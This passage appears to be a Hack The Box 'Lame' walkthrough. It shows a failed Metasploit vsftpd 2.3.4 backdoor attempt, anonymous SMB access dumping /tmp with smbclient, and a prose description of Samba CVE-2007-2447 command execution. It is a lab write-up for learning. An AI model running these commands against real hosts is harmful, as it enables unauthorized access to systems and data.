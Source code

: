 #### 1.1.2.3 Exploit

```less
[msf](Jobs:0 Agents:0) exploit(unix/ftp/vsftpd_234_backdoor) >> exploit
[*] 10.129.159.140:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 10.129.159.140:21 - USER: 331 Please specify the password.

[*] Exploit completed, but no session was created.
```



### 1.1.3 (medium) Samba 3.0.20 Anonymous Access

There is unauthorized anonymous access to the SMB share, allowing file creation and reading, which could lead to sensitive information being stored or exposed.

#### 1.1.3.1 Dump /tmp

```less
└──╼ $ smbclient --no-pass //lame.htb/tmp

Anonymous login successful

Try "help" to get a list of possible commands.

smb: \> mask ""
smb: \> recurse
smb: \> prompt
smb: \> mget *

getting file \.X0-lock of size 11 as .X0-lock (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED opening remote file \5606.jsvc_up
getting file \vgauthsvclog.txt.0 of size 1600 as vgauthsvclog.txt.0 (0.2 KiloBytes/sec) (average 0.1 KiloBytes/sec)
NT_STATUS_ACCESS_DENIED listing \vmware-root\*
NT_STATUS_ACCESS_DENIED opening remote file \.X11-unix\X0

smb: \> exit

┌─[r4ndhex@parrot]─[~/Obsidian/hackthebox/machine/lame/smb/tmp]
└──╼ $ ls
vgauthsvclog.txt.0  vmware-root
```

### 1.1.4 (critical) Samba 3.0.20 Remote Command Execution as Root CVE-2007-2447

The MS-RPC functionality in smbd in Samba 3.0.0 through 3.0.25rc3 allows remote attackers to execute arbitrary commands via shell metacharacters involving the (1) SamrChangePassword function, when the "username map script" smb.conf option is enabled, and allows remote authenticated users to execute commands via shell metacharacters involving other MS-RPC functions in the (2) remote printer and (3) file share management.
